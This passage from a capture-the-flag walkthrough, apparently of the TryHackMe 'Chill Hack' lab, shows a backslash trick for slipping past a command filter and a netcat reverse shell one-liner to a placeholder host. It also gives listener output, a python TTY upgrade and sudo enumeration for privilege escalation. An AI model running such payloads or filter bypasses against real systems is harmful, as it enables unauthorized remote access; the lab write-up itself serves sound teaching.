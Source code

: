 `/secret` is the directory we're looking for. There is a filter that doesn't let us run commands but we can easily bypass it by adding `\` in the beginning or in the middle of the commands. For example I tried `\which \bash`:

<p align="center"><img src="./files/bash.png"></p>

## Reverse Shell

So we can execute a payload to get a bash reverse shell:

This is the bash reverse shell paylaod:

~~~
\rm /tmp/f;mkfifo /tmp/f;\cat /tmp/f|/bin/sh -i 2>&1|\nc <YOUR IP> 4444 >/tmp/f
~~~

Start a listener and execute this payload and you'll get a reverse shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.27.134] 33560
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

The first thing I did was spawning a TTY shell using a pythone one-liner:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html/secret$ 
~~~

## www-data -> apaar

Now we need to escalate to a real user on the machine. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@ubuntu:/var/www/html/secret$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
~~~
